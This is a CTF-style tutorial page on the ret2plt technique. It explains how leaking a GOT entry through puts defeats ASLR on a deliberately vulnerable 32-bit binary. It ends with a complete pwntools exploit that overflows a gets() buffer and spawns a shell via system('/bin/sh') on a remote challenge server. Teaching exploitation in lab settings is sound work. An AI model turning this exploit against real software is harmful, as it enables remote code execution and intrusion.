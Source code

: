 ```yaml
---
description: Using the PLT and GOT tables to bypass ASLR.
---
```


# ret2plt

{% file src="../../.gitbook/assets/ret2plt.zip" %}

The `ret2plt` exploit is one of the most popular exploits for beating ASLR. This exploit involves calling `puts@plt` and passing the address of `puts@got` as an argument. This will cause `puts` to leak its own address in `libc`.

Once we have this, we can set the return address to `main` and call `system` with the address of `"/bin/sh"` as an argument.

{% hint style="danger" %}
Be sure that you've read the introduction page for ASLR. This is important for discussing the PLT and GOT tables, and the theory behind this exploit.
{% endhint %}

### Static Analysis

If we perform `checksec` on this binary:

```nasm
$ checksec ret2plt
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/ret2plt/src/ret2plt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

For this challenge, we'll find that it's essential that PIE is **turned off**. This is because we will rely on knowing the absolute addresses of the PLT and GOT tables to jump to them.

We'll scan through `gdb` to check for vulnerabilities. There are two functions: `main` and `read_in`.

* `main()` does nothing more than call `read_in` and then prints _You lose!_.
* `read_in()` has a `gets()` call into `ebp-0x30`. There's nothing else useful in this function.

This isn't much to go off. We'll have to understand the ret2plt vulnerability better to exploit this binary.

### How the Exploit works

The ret2plt exploit is a bit more complicated than some of our previous ones. Recall that the PLT table is a list of stubs that point to the GOT table. The GOT table is a list of addresses that point to the actual functions in `libc`.

We said in the introduction paragraph that when we call entries in the PLT table, it's identical to calling the library function itself. Because the PLT is a compile-time construct, we know its address at compile-time. However, the GOT table is a run-time construct, so we don't know its address until the program is actually running.

When ASLR randomizes the address space, it randomizes the address of the GOT table. Therefore, if we can somehow leak one of the values inside the GOT table, we can leak the address of `libc` in memory. This is the key to beating ASLR.

The most common way to do this is to leak the address of `puts`. We do this by passing `puts@got` as an argument to `puts@plt`. This will cause `puts` to print its own address in memory. We can then use this address to calculate the base address of `libc` in memory.

{% hint style="warning" %}
#### _Why does this work?_

Recall that the GOT table connects a function call to the actual function in `libc`. We know the address of the GOT table during runtime, but we can't directly access the value that it points to.

When we pass parameters to a function, function arguments actually take **a pointer to the value**. Therefore, when we pass the GOT entry for `puts` (i.e., `puts@got`), the `puts` function will dereference that pointer and provide us with the value that that address. This value is the true address of `puts` in `libc`!
{% endhint %}

Now, we need to do this in our exploit. We'll need to pass `puts@got` to `puts@plt`. This will leak the true address of `puts` in `libc`. Since we know the offset, we'll compute the base address and beat ASLR!

### Writing the Exploit

The pwntools library helps us with this exploit. This exploit will come in two parts:

1. Performing the `ret2plt` exploit to leak the address of `puts` in `libc`, hence beating ASLR.
2. Performing a `ret2libc` exploit -- calling `system` with the address of `"/bin/sh"` as an argument to spawn a shell.

**Part 1: Leak the address of `puts` in `libc`**

To do this, we need to overflow the buffer, then call `puts@plt` using `puts@got` as an argument. If you forgot the structure of the stack frame when passing arguments in 32-bit, refer to the [_args_](../01-ret2win/args.md) challenge.

This payload will do the trick:

```python
# perform the ret2plt
payload = b'A' * 52
payload += p32(elf.plt.puts)
payload += p32(elf.sym.main)
payload += p32(elf.got.puts)
```

_Why is there a `elf.sym.main` in there?_ When we've done this in the past, we've used `0x0` as a placeholder for the return address. This time, however, the return address is important. We don't want the program to crash after we've leaked the address. By returning to `main`, we can run the program again, knowing the base `libc` address, and perform a `ret2libc` exploit.

Once we've done this, we'll send off the payload. We'll need to receive the leaked address and calculate the base address of `libc`.

```python
p.sendline(payload)
leak = u32(p.recv(4))
libc.address = leak - libc.sym.puts
log.info("LIBC leaked: " + hex(libc.address))
```

`u32` performs the opposite of `p32`. It converts a 4-byte string into an integer.

We've beaten ASLR! Now, we can perform a `ret2libc` exploit.

**Part 2: Spawn a shell**

We'll need to call `system` with the address of `"/bin/sh"` as an argument. The return address doesn't matter this time, so we can use `0x0` as a placeholder.

```python
# perform the ret2libc
payload = b'A' * 52
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))
```

Then, we send this off and ask for an interactive shell!

```python
p.sendline(payload)
p.interactive()
```

This will give a shell on the remote system! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./ret2plt')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6300)

print(p.recvline())

# perform the ret2plt
payload = b'A' * 52
payload += p32(elf.plt.puts)
payload += p32(elf.sym.main)
payload += p32(elf.got.puts)

p.sendline(payload)
leak = u32(p.recv(4))
libc.address = leak - libc.sym.puts
log.info("LIBC leaked: " + hex(libc.address))

print(p.recvline())

# perform the ret2libc
payload = b'A' * 52
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))

p.sendline(payload)
p.interactive()
```
{% endcode %}
